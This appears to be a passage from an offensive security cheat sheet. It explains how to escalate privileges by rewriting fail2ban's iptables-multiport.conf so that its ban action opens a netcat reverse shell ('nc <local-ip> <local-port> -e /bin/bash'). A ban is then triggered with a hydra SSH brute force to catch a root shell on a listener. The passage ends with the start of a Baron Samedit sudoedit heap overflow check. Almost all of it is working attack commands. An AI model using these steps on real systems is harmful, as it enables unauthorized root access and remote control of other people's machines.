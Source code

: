For privilege escalation, we can write the **"iptables-multiport.conf"** - actionstart, actionstop, actioncheck, actionban, actionunban.

```sh
ls -al /etc/fail2ban/action.d/iptables-multiport.conf
# copy this file into the home directory for editing the content
cp /etc/fail2ban/action.d/iptables-multiport.conf ~
vim ~/iptables-multiport.conf

# ---------------------------------------------------------

# Edit actionban

...

actionban = /usr/bin/nc <local-ip> <local-port> -e /bin/bash

...

# ---------------------------------------------------------
```

Then move back the config file to the original one.

```sh
mv ~/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

To apply the configuration, restart it as root.

```sh
sudo /etc/init.d/fail2ban restart
```

Start listener in local machine.

```sh
nc -lvnp 4444
```

Try to login with the wrong passwords so that you will get banned.

```sh
hydra -l root -P passwords.txt <target-ip> ssh
```

After a short time, you will get the root shell via listener.

<br />

## Buffer Overflow

1. **Baron Samedit (Heap Buffer Overflow)**

    1. **Check Vulnerability to Overwrite Heap Buffer in Target Machine**

        ```sh
        sudoedit -s '\' $(python3 -c 'print("A"*1000)')
        malloc(): invalid size (unsorted)
        Aborted
        ```
